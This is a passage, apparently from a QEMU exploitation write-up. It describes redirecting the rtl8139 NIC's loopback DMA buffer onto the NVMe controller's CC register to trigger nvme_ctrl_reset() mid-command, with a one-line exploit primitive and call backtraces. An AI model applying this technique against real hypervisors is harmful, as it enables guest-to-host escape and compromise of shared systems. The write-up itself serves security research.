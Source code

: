 ```
#16 nvme_c2h
#17 nvme_io_mgmt_recv_ruhs
#18 nvme_io_mgmt_recv
#19 nvme_io_cmd
#20 nvme_process_sq
```

In section **"4. rtl8139"**, it is mentioned that the rtl8139 can be configured to **loopback data to itself** and specify the address of the receive buffer. The receive packet handler calls `rtl8139_write_buffer()` to store data into that buffer.

```c
static void rtl8139_write_buffer(RTL8139State *s, const void *buf, int size)
{
    // [...]
    pci_dma_write(d, s->RxBuf + s->RxBufAddr, buf, size);
    s->RxBufAddr += size;
}
```

So before executing the `NVME_CMD_IO_MGMT_RECV` command, we can set the address of the receive buffer (`RxBuf`) to the NVMe control register. This setup will trigger the NVMe reset mechanism when the rtl8139 receives packets, thereby executing `nvme_ctrl_reset()`.

```c
// 4 bytes for packet header
*(unsigned int *)(rtl8139_bar + RxBuf) = 0xfebf0000 + NVME_REG_CC - 4;
```

Below is the backtrace when reaching `nvme_ctrl_reset()`, where #23 corresponds to #0 in the previous backtrace:

```
#0  nvme_ctrl_reset
#1  nvme_write_bar
#2  nvme_mmio_write

#3  memory_region_write_accessor
#4  access_with_adjusted_size
#5  memory_region_dispatch_write
#6  flatview_write_continue_step
#7  flatview_write_continue
#8  flatview_write
#9  address_space_write
#10 address_space_rw
#11 dma_memory_rw_relaxed
#12 dma_memory_rw
#13 pci_dma_rw
#14 pci_dma_write

#15 rtl8139_write_buffer
#16 rtl8139_do_receive
#17 rtl8139_receive
#18 nc_sendv_compat
#19 qemu_deliver_packet_iov
#20 qemu_net_queue_deliver
#21 qemu_net_queue_receive
#22 qemu_receive_packet
#23 rtl8139_transfer_frame
```
